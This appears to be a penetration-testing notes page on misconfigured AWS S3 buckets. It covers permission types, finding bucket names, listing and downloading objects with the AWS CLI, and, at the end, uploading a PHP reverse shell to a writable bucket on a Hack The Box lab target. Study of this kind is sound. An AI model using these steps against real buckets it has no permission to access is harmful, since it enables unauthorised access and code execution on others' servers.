 # Aws Buckets

* AWS provides the ability for clients to store a lot of data using a service called Simple Storage Service(S3).
* Files are stored on what are called buckets and these buckets can have insecure permissions:

## Here’s a break down of the following permissions:

* List objects: user with permissions can list the files in the bucket
* Write objects: user with permissions can add/remove files on the bucket
* Read bucket permissions: users with permissions can read files on the bucket
* Write bucket permissions: users with permissions can edit files on the bucket

### The permissions above apply to the bucket, but an administrator can also assign specific permissions to files/objects in the bucket.

#### An administrator can assign permissions in the following ways:

* For specific users
* For everyone
* In the past, the default S3 permissions were weak and S3 buckets would be publicly accessible but AWS changed this to block public access by default.

### AWS CLI Install

```
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
unzip awscliv2.zip
sudo ./aws/install
```

## Enumeration

* The first part of enumerating s3 buckets is having an s3 bucket name. How would you find an s3 bucket name:
* Source code on git repositories
* Sub domain enumeration
* Analyzing requests on web pages
* Some pages retrieve static resources from s3 buckets
* Domain name of product names:
* If a product or domain is called “servicename” then the s3 bucket may also be called “servicename”
* Once we have an s3 bucket, we can check if it’s publicly accessible by browsing to the URL. The format of the URL is:

```
bucketname.s3.amazonaws.com
```

* If you’ve found objects on an s3 bucket, you would want to download them to view their contents. You do this using the AWS CLI. To use the AWS CLI, you need to create an account.

### AWS Configure&#x20;

* Start by configuring aws on your local machine:

```
aws configure
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

### Connecting to an Endpoint&#x20;

* There are multiple ways to connect to an endpoint:

```
aws --endpoint=http://s3.thetoppers.htb s3 ls
aws s3 ls s3://bucket-name
```

* The output will look something like:

```
2022-09-25 20:03:26 thetoppers.htb
```

### View s3 bucket files&#x20;

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2022-09-25 20:03:26          0 .htaccess
2022-09-25 20:03:26      11952 index.php

```

### Download Files

```
aws s3 cp s3://bucket-name/file-name local-location
```

* Alternatively, you can also use the following method to access a file:

```
bucketname.region-name.amazonaws.com/file-name
```

### Copy local files to s3

```
aws --endpoint=http://s3.thetoppers.htb s3 cp php-reverse-shell.php s3://thetoppers.htb 
upload: ./php-reverse-shell.php to s3://thetoppers.htb/php-reverse-shell.php
```
